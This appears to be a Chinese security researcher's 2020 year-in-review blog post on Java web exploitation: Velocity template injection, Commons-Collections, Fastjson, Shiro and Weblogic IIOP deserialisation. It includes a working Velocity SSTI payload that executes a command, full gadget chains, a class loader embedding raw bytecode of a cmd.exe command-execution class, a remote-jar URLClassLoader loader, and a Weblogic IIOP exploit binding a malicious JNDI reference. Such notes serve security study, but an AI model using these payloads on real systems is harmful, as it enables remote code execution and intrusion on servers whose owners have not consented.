

# 2020年研究回顾总结

# 前言

   这篇文章是一遍概述，浓缩性的文章，大致内容是将我研究的内容，回归总结。将分析文章总一个压缩在压缩性质的总结。尽可能保证用最简单话写最多的内容，都是自己的理解，如有错误还请谅解。所有的具体分析文章都在博客中，博客地址：<https://summersec.github.io>

---

# SSTI 服务端模板注入

   服务端模板注入漏洞普遍存在于使用某种模板引擎模板解析（翻译）和数据渲染，目的是渲染或者解析页面速度更快，更加便捷。  
   下面是Velocity模板引擎的SSTI漏洞Payload，很容易就发现Payload使用Java反射的知识。Velocity模板引擎语法加上Java反射配合，使用SSTI漏洞变成了可能。其实绝大多数情况下基本上SSTI服务端模板注入形成原因都是这样子，==模板语法+Java反射==。当然有些模板引擎会禁用底层JDK某些方法，当然Bypass就可以使用Java反射调用被禁用的某些底层类。

```
q=1&&wt=velocity&v.template=custom&v.template.custom=#set($x='') 
#set($rt=$x.class.forName('java.lang.Runtime')) 
#set($chr=$x.class.forName('java.lang.Character')) 
#set($str=$x.class.forName('java.lang.String')) 
#set($ex=$rt.getRuntime().exec('calc'))
$ex.waitFor() 
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))#end
```

---

# CommonsCollections反序列化

   目前commons-collections的反序列化漏洞主要以3和4(版本)为主流，3和4的利用方式也不同，Gadget链也不相同。

---

## CommonsCollections3

   BadAttributeValueExpException这个类是javax.management报下的一个异常处理类，是jdk自带的，无需依赖第三方。它继承了Serializable接口满足反序列化漏洞的条件，它只有一个值权限是`private不可直接修改`，但利用反射机制修改其权限来到达触发反序列化漏洞的目的。

```java
Gadget chain:
       ObjectInputStream.readObject()
           BadAttributeValueExpException.readObject()
               TiedMapEntry.toString()
                   LazyMap.get()
                       ChainedTransformer.transform()
                           ConstantTransformer.transform()
                           InvokerTransformer.transform()
                               Method.invoke()
                                   Class.getMethod()
                           InvokerTransformer.transform()
                               Method.invoke()
                                   Runtime.getRuntime()
                           InvokerTransformer.transform()
                               Method.invoke()
                                   Runtime.exec()
```

   下面一张图很完美解释了`Transformer数组`的功能，其实本质还是Java反射调用。  


---

## CommonsCollections4

   PriorityQueue原本只是个优先队列，TemplatesImpl原本只是在xalan中的处理xml的模板实现，二者相互结合。先将恶意字节码通过修改字节码方式植入TemplatesImpl类中，然后用PriorityQueue类`比较特性`触发漏洞。

```java
Gadget chain:
    ObjectInputStream.readObject()
        PriorityQueue.readObject()
            ...
                TransformingComparator.compare()
                    InvokerTransformer.transform()
                        Method.invoke()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                    TemplatesImpl.defineTransletClasses()
                                        Runtime.exec()
```


---

# 反序列化回显

## defineclass异常回显

   defineclass是java.lang.ClassLoader类下的一个类方法，将字节码转化为Class类。使用该类加载生成恶意的类字节码，恶意类里面包含着一个恶意命令然后使用异常回显出命令执行的结果。

```java
// 加载恶意类字节码
public class demo2 extends ClassLoader {
    // Summer类名
    private static String testClassName = "summer.classload.Summer";
    // Summer.class类字节码
    private static byte[] testClassBytes = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 52, 0, 96, 10, 0, 24, 0, 53, 7, 0, 54, 7, 0, 55, 8, 0, 56, 8, 0, 57, 10, 0, 2, 0, 58, 10, 0, 2, 0, 59, 10, 0, 60, 0, 61, 7, 0, 62, 8, 0, 63, 10, 0, 64, 0, 65, 10, 0, 9, 0, 66, 7, 0, 67, 10, 0, 13, 0, 68, 7, 0, 69, 10, 0, 15, 0, 53, 10, 0, 13, 0, 70, 10, 0, 15, 0, 71, 8, 0, 72, 7, 0, 73, 10, 0, 15, 0, 74, 10, 0, 20, 0, 75, 7, 0, 76, 7, 0, 77, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 21, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 4, 67, 111, 100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1, 0, 18, 76, 111, 99, 97, 108, 86, 97, 114, 105, 97, 98, 108, 101, 84, 97, 98, 108, 101, 1, 0, 4, 116, 104, 105, 115, 1, 0, 25, 76, 115, 117, 109, 109, 101, 114, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 47, 83, 117, 109, 109, 101, 114, 59, 1, 0, 3, 99, 109, 100, 1, 0, 18, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 6, 115, 116, 114, 101, 97, 109, 1, 0, 21, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 12, 115, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 1, 0, 27, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 59, 1, 0, 14, 98, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 1, 0, 24, 76, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 59, 1, 0, 6, 98, 117, 102, 102, 101, 114, 1, 0, 24, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 4, 108, 105, 110, 101, 1, 0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 76, 7, 0, 55, 7, 0, 78, 7, 0, 62, 7, 0, 67, 7, 0, 69, 1, 0, 10, 69, 120, 99, 101, 112, 116, 105, 111, 110, 115, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 11, 83, 117, 109, 109, 101, 114, 46, 106, 97, 118, 97, 12, 0, 25, 0, 79, 1, 0, 24, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 1, 0, 7, 99, 109, 100, 46, 101, 120, 101, 1, 0, 2, 47, 99, 12, 0, 25, 0, 80, 12, 0, 81, 0, 82, 7, 0, 83, 12, 0, 84, 0, 85, 1, 0, 25, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 82, 101, 97, 100, 101, 114, 1, 0, 3, 103, 98, 107, 7, 0, 86, 12, 0, 87, 0, 88, 12, 0, 25, 0, 89, 1, 0, 22, 106, 97, 118, 97, 47, 105, 111, 47, 66, 117, 102, 102, 101, 114, 101, 100, 82, 101, 97, 100, 101, 114, 12, 0, 25, 0, 90, 1, 0, 22, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 12, 0, 91, 0, 92, 12, 0, 93, 0, 94, 1, 0, 1, 10, 1, 0, 19, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 95, 0, 92, 12, 0, 25, 0, 26, 1, 0, 23, 115, 117, 109, 109, 101, 114, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 47, 83, 117, 109, 109, 101, 114, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 1, 0, 19, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 3, 40, 41, 86, 1, 0, 22, 40, 91, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 86, 1, 0, 5, 115, 116, 97, 114, 116, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 59, 1, 0, 17, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 80, 114, 111, 99, 101, 115, 115, 1, 0, 14, 103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 1, 0, 23, 40, 41, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 1, 0, 24, 106, 97, 118, 97, 47, 110, 105, 111, 47, 99, 104, 97, 114, 115, 101, 116, 47, 67, 104, 97, 114, 115, 101, 116, 1, 0, 7, 102, 111, 114, 78, 97, 109, 101, 1, 0, 46, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 110, 105, 111, 47, 99, 104, 97, 114, 115, 101, 116, 47, 67, 104, 97, 114, 115, 101, 116, 59, 1, 0, 50, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109, 59, 76, 106, 97, 118, 97, 47, 110, 105, 111, 47, 99, 104, 97, 114, 115, 101, 116, 47, 67, 104, 97, 114, 115, 101, 116, 59, 41, 86, 1, 0, 19, 40, 76, 106, 97, 118, 97, 47, 105, 111, 47, 82, 101, 97, 100, 101, 114, 59, 41, 86, 1, 0, 8, 114, 101, 97, 100, 76, 105, 110, 101, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 6, 97, 112, 112, 101, 110, 100, 1, 0, 44, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 66, 117, 102, 102, 101, 114, 59, 1, 0, 8, 116, 111, 83, 116, 114, 105, 110, 103, 0, 33, 0, 23, 0, 24, 0, 0, 0, 0, 0, 1, 0, 1, 0, 25, 0, 26, 0, 2, 0, 27, 0, 0, 1, 27, 0, 6, 0, 7, 0, 0, 0, 112, 42, -73, 0, 1, -69, 0, 2, 89, 6, -67, 0, 3, 89, 3, 18, 4, 83, 89, 4, 18, 5, 83, 89, 5, 43, 83, -73, 0, 6, -74, 0, 7, -74, 0, 8, 77, -69, 0, 9, 89, 44, 18, 10, -72, 0, 11, -73, 0, 12, 78, -69, 0, 13, 89, 45, -73, 0, 14, 58, 4, -69, 0, 15, 89, -73, 0, 16, 58, 5, 1, 58, 6, 25, 4, -74, 0, 17, 89, 58, 6, -58, 0, 19, 25, 5, 25, 6, -74, 0, 18, 18, 19, -74, 0, 18, 87, -89, -1, -24, -69, 0, 20, 89, 25, 5, -74, 0, 21, -73, 0, 22, -65, 0, 0, 0, 3, 0, 28, 0, 0, 0, 38, 0, 9, 0, 0, 0, 7, 0, 4, 0, 8, 0, 36, 0, 9, 0, 50, 0, 10, 0, 60, 0, 11, 0, 69, 0, 12, 0, 72, 0, 14, 0, 83, 0, 15, 0, 99, 0, 18, 0, 29, 0, 0, 0, 72, 0, 7, 0, 0, 0, 112, 0, 30, 0, 31, 0, 0, 0, 0, 0, 112, 0, 32, 0, 33, 0, 1, 0, 36, 0, 76, 0, 34, 0, 35, 0, 2, 0, 50, 0, 62, 0, 36, 0, 37, 0, 3, 0, 60, 0, 52, 0, 38, 0, 39, 0, 4, 0, 69, 0, 43, 0, 40, 0, 41, 0, 5, 0, 72, 0, 40, 0, 42, 0, 33, 0, 6, 0, 43, 0, 0, 0, 31, 0, 2, -1, 0, 72, 0, 7, 7, 0, 44, 7, 0, 45, 7, 0, 46, 7, 0, 47, 7, 0, 48, 7, 0, 49, 7, 0, 45, 0, 0, 26, 0, 50, 0, 0, 0, 4, 0, 1, 0, 20, 0, 1, 0, 51, 0, 0, 0, 2, 0, 52,
    };
    @Override
    public Class<?> findClass(String name) throws ClassNotFoundException {
        // 只处理Summer类
        if (name.equals(testClassName)) {
            // 调用JVM的defineClass方法定义Summer类
            return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);
        }
        return super.findClass(name);
    }

    public static void main(String[] args) {
        // 创建自定义的类加载器
        demo2 loader = new demo2();
        try {
            // 使用自定义的类加载器加载TestHelloWorld类
            Class testClass = loader.loadClass(testClassName);
            // 反射创建Summer类，等价于 Summer t = new Summer(‘ipconfig);
            testClass.getConstructor(String.class).newInstance("ipconfig");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

```java
// 恶意类 
public class Summer {
    public void Summer(String cmd) throws Exception {
        InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
        InputStreamReader streamReader = new InputStreamReader(stream, Charset.forName("gbk"));
        BufferedReader bufferedReader = new BufferedReader(streamReader);
        StringBuffer buffer = new StringBuffer();
        String line = null;
        while((line = bufferedReader.readLine()) != null) {
            buffer.append(line).append("\n");
        }
        throw new Exception(buffer.toString());
    }
}
```

---

## URLClassLoader远程加载文件回显

   URLClassLoader是java.net下的类，继承了java.lang.Classloader类对象。URLClassLoader可以从远端或者本地加载jar/class文件。  
 实现代码

```java
public class demo {
    public static void main(String[] args) throws Exception {

        URL url = new URL("http://127.0.0.1:8090/summer.jar");
//        URL url = new URL("file:e:/summer.jar");

        URLClassLoader ucl = new URLClassLoader(new URL[]{url});
        Class cls = ucl.loadClass("Summer");
        Method m = cls.getMethod("Exec",String.class);
        m.invoke(cls.newInstance(),"ipconfig");

    }
}
```

具体实现步骤[Java反序列化回显解决方案](https://summersec.github.io/2020/06/01/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88/)

---

# Fastjson反序列化

   Fastjson在序列化的方法加入`SerializerFeature.WriteClassName`特征字段。序列化出来的结果会在开头加一个`@type`字段，值为进行序列化的类名。再将带有@type字段的序列化数据进行反序列化会得到对应的`实例类对象`。知道Fastjson这一特性，其他Fastjson反序列化细节部分就用下面两张图表示。  
ps：这里这讨论最初的爆Fastjson反序列化漏洞

```java
/**
 * Gadget chain:
 *      JSON.parse()
 *          DefaultJSONParser.parse()
 *              DefaultJSONParser.parseObject()
 *                  JavaBeanDeserializer.deserialze()
 *                      JavaBeanDeserializer.parseRest()
 *                          FieldDeserializer.setValue()
 *                              Reflect.invoke()
 *                                  JdbcRowSetImpl.setAutoCommit()
 *
 */
```


---

# Shiro反序列化

`Shiro-550(Apache Shiro < 1.2.5)`和`Shiro-721( Apache Shiro < 1.4.2 )`。这两个漏洞主要区别在于Shiro550使用已知密钥撞，后者Shiro721是使用登录后`rememberMe={value}`去爆破正确的key值进而反序列化，对比Shiro550条件只要有`足够密钥库（条件比较低）`、Shiro721需要登录（要求比较高鸡肋）。

- `Apache Shiro < 1.4.2`默认使用`AES/CBC/PKCS5Padding`模式
- `Apache Shiro >= 1.4.2`默认使用`AES/GCM/PKCS5Padding`模式  
     简单来说流程就是将生成恶意Payload进行AES加密，然后Base64编码，然后以`rememberMe={value}`形式发送给服务器。服务器将valueBase64解码，然后将解码后数据进行AES解密，最后反序列化执行命令。

  ```java
  *                  Gadget chian:
  *                      DefaultSecurityManager.resolvePrincipals()
  *                          DefaultSecurityManager.getRememberedIdentity()
  *                              AbstractRememberMeManager.getRememberedPrincipals()
  *                                  CookieRememberMeManager#getRememberedSerializedIdentity()
  *                                      AbstractRememberMeManager#getRememberedPrincipals()
  *                                          AbstractRememberMeManager.convertBytesToPrincipals()
  *                                              AbstractRememberMeManager.decrypt()
  *                                                  AbstractRememberMeManager.deserialize()
  *                                                      .....................
  *                                                               ..........
  *  
  *
  ```

---

# Weblogic IIOP2551–反序列化

   这个漏洞是Weblogic第一个IIOP协议反序列化漏洞，影响范围比较广。

1. payload使用`com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`，这是Spring framework 反序列化的漏洞其中之一。
2. 参数可控触发反序列化漏洞
3. 2551是第一个IIOP协议的反序列化漏洞，影响很大、范围很广。
4. GIOP 标志 `47 49 4f 50`

   ```java
   // payload
   public static void main(String[] args) throws Exception {
           String ip = "127.0.0.1";
           String port = "7001";
           Hashtable<String, String> env = new Hashtable<String, String>();
           env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
           env.put("java.naming.provider.url", String.format("iiop://%s:%s", ip, port));
           Context context = new InitialContext(env);
       
           JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
           jtaTransactionManager.setUserTransactionName("rmi://127.0.0.1:1099/Exploit");
           Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
           context.bind("hello", remote);
       }
   ```

```java
/**
 *      Context.rebind()
 *          InitialContext.rebind()
 *              ContextImpl.rebind()
 *                  _NamingContextAnyStub.rebind_any()
 *                      ............
 *                          IIOPInputStream.read_value()
 *                              ValueHandlerImpl.readValue()
 *                                  ValueHandlerImpl.readValueData()
 *                                      JtaTransactionManager.readObject()
 *                                          JtaTransactionManager.initUserTransactionAndTransactionManager()
 *                                              JtaTransactionManager.lookupUserTransaction()
 *                                                  JndiTemplate.lookup()
 */
```

---
